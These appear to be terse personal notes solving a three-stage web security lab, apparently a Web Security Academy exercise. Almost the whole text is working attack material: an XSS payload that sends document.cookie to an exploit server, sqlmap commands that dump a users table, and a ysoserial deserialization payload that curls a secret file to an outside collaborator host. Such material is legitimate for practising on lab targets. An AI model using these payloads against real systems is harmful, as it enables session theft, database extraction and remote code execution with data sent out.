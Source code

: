 stage 1

PoC: "-Function`X${a}```-"
output: Uncaught ReferenceError: a is not defined

"-Function`X${document.location="https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc="+document.cookie}```-"

url encode key chars: https://meyerweb.com/eric/tools/dencoder/

<script>
document.location = "https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/?find=%22-Function`X${document.location=%22https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc=%22%2document.cookie}```-%22"
</script>


stage 2

try --level=5 if everything fails.
try with a normal string such as ASC.

python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=3 --risk=1 --dbs --tables


python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=3 --risk=1 -D public -T users --columns --technique=E


python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=3 --risk=1 -D public -T users --dump


stage 3

java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar "CommonsCollections2" 'curl https:/zfi3yzddbe7y48vjbmp79z27oyupii67.oastify.com -d @/home/carlos/secret' | gzip -c | base64 -w 0

